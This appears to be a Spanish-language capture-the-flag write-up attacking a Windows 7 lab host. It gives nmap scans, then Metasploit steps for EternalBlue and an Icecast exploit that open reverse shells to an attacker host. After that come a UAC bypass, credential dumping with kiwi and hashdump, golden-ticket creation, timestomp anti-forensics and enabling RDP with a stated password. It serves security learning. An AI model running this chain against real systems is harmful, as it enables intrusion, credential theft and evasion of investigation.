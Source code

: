 
---
 - Realizamos el escaneo de todos los puertos abiertos 

 ```bash
 PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 125
139/tcp   open  netbios-ssn   syn-ack ttl 125
445/tcp   open  microsoft-ds  syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125
5357/tcp  open  wsdapi        syn-ack ttl 125
8000/tcp  open  http-alt      syn-ack ttl 125
49152/tcp open  unknown       syn-ack ttl 125
49153/tcp open  unknown       syn-ack ttl 125
49154/tcp open  unknown       syn-ack ttl 125
49158/tcp open  unknown       syn-ack ttl 125
49159/tcp open  unknown       syn-ack ttl 125
49161/tcp open  unknown       syn-ack ttl 125
 ```

- Realizamos el escaneo de scripts de reconocimiento y versiones de los puertos extraídos:

```java
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2025-10-27T22:20:32+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2025-10-26T21:52:50
|_Not valid after:  2026-04-27T21:52:50
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http         Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-27T17:20:18-05:00
| smb2-time: 
|   date: 2025-10-27T22:20:17
|_  start_date: 2025-10-27T21:52:28
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 16:ff:de:f5:66:99 (unknown)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h14m59s, deviation: 2h30m01s, median: -1s
```


---
#### Forma de Explotación 1 

- Aplicando el script de reconocimiento de vulnerabilidad de nmap me aparece lo siguiente en donde parece que el servicio 445 es vulnerable (ms17-010), teniendo como vía de explotación la vulnerabilidad de *Eternal Blue* 

```java
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

- Abrimos la consola de metaesploit y procedemos 

```bash
search ms17-010   # Buscamos la vulnerabilidad de eternal blue
use 0
set RHOSTS <IpVictima> 
set LHOST <IpAtacante>
run 

# Nos abre una sesion de meterpreter ya configurado para el usuario administrador sin necesidad de escalar privilegios
```


---

#### Forma de Explotación 2

- Vemos que el puerto 8000 esta asociado a un servicio llamado *Icecast* el cual es un servicio de streaming por lo que procedemos a buscar una vulnerabilidad de este servicio en la web reflejando que:

- Link :  [https://www.cvedetails.com](https://www.cvedetails.com/cve/CVE-2004-1561/)

![[Pasted image 20251027174029.png]]

*CVE*: CVE-2004-1561 | *Impact Score:* 6.4

- Buscamos la vulnerabilidad en metasploit:

```bash
search icecast    # Buscando por el servicio
search CVE-2004-1561 # Buscando por la vulnerabilidad
```

- Encontramos el modulo de explotación de *exploit/windows/http/icecast_header* y explotamos el servicio de la siguiente manera:

```bash
use 0
set RHOSTS <Ipvictima>
set LHOST <IpAtacante>
run
```

- Por lo que al explotar la vulnerabilidad vemos que nos da un shell bajo el usuario de *Dark-PC* o *dark*

![[Pasted image 20251027174848.png]]


- Algunos comandos que podemos aplicar en la sesión de meterpreter son los siguientes_

```bash
meterpreter >
				sysinfo      # Informacion del sistema asi como su arquitectura
				
```


##### Escalada de Privilegios

- Una ves teniendo Acceso a la maquina procedemos a la escalda de privilegios de la sesión de meterpreter de la siguiente forma:

```bash
meterpreter >
				run post/multi/recon/local_exploit_suggester
```

- Esto nos arrojara varios exploit que facilitaran la escalada de privilegios como los siguientes, sin embargo el modulo que nos interesa es el modulo 2 *exploit/windows/local/bypassuac_eventvwr*

![[Pasted image 20251027175938.png]]


- Procedemos a la escalda de privilegios

```bash
background    # Dejamos la session de meterpreter que tenemos actualmente 
use exploit/windows/local/bypassuac_eventvwr   # Usamos el exploit de Escalada de privilegios que habiamos encontrado
set SESSION 1     # Definimos la sesion que teniamos activa
set RHOSTS <IpVictima>
set LHOST <IpAtacante>
set LPORT <PuertoAtacante>
run

# Se nos abrira una sesion con mejores permisos

meterpreter >
				getprivs    # Nos muestra los permisos de los cuales tenemos propiedades
				
# el permiso "SeTakeOwnershipPrivilege" nos permite tomar propiedad de los archivos
```

- Procedemos a la escalda del usuario administrador o *nt authority system*

```bash
meterpreter >
			ps    # Esto nos mostrara los procesos que esta corriendo el usuario administrador en busqueda de lsass el cual permite la      autenticacion de windows
```

![[Pasted image 20251027181537.png]]

- Para poder acceder a este servicio, necesitamos otro con la misma arquitectura al cual tengamos acceso, uno de estos puede ser el servicio de impresión el cual es 
					*1376  688   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe*

```bash
meterpreter >
			migrate -N spoolsv.exe   # Migramos a este proceso 
			getuid    # Miramos que usuario somos 
			load kiwi # Cargamos la herramienta de kiwi para el volcado de credenciales ya que tenemos permiso de administrador
			help  # Ahora podremos ver una nueva lista de comandos correspondientes a kiwi 
			creds_all  # Revelamos todas las credenciales del sistema
```


![[Pasted image 20251027182609.png]]


##### Post Explotación

```bash
meterpreter >
			hashdump     # Nos muestra todos los hashes de contraseñas alojados en el sistema 
			screenshare  # Nos muestra la pantalla en tiempo real
			record_mic   # Graba el microfono en tiempo real
			timestomp    # Manipula los regitros de tiempo en los archivos del sistema, es util para evadir rastreos forenses
			golden_ticket_create   # Es del modulo de kiwi y permite crear una autenticacion permanente
```

![[Pasted image 20251027184413.png]]

```bash
meterpreter >
			run post/windows/manage/enable_rdp  # Modulo para la activacion del remote desktop
			
# Con el modulod de activacion del escritorio remoto ya podriamos acceder de la siguiente manera

xfreerdp /u:dark /p:Password01! /v:10.201.11.96:3389

```